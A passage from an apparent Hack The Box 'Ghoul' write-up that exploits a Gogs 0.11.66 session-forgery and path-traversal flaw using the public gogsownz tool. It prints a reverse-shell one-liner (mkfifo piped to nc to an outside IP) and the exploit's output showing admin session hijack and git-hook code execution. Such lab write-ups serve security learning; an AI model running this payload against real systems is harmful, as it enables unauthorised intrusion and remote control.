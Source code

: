 The version is shown at the bottom of the page:

![](/assets/images/htb-writeup-ghoul/gogs_version.png)

I tried various credentials and was able to get with pieces of info I found earlier: `AogiriTest / test@aogiri123`

![](/assets/images/htb-writeup-ghoul/gogs_logged.png)

There's nothing on the Gogs application, no repo, nothing interesting.

Next I did some research and found there's two CVE's for this version: CVE-2018-18925 and CVE-2018-20303. Gogs 0.11.66 allows remote code execution because it does not properly validate session IDs, as demonstrated by a ".." session-file forgery in the file session provider in file. The other CVE is a directory traversal in the file-upload functionality can allow an attacker to create a file under data/sessions on the server.

There's already a nice exploit available on Github: [https://github.com/TheZ3ro/gogsownz](https://github.com/TheZ3ro/gogsownz)

```
# python3 gogsownz.py http://127.0.0.1:3000/ --burp -C "AogiriTest:test@aogiri123" -v --preauth --rce "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 4444 >/tmp/f" --cleanup
[!] Created Gogsownz
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[!] Creds found.
[!] Logging in...
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[i] Exploiting pre-auth PrivEsc...
[+] Uploading admin session as attachment file
[+] Uploaded successfully, preparing cookies for the Path Traversal
[+] Admin session hijacked, trying to login as admin
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '../attachments/9/4/94918be1-7932-44b5-8490-40ff628acf8c'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
```
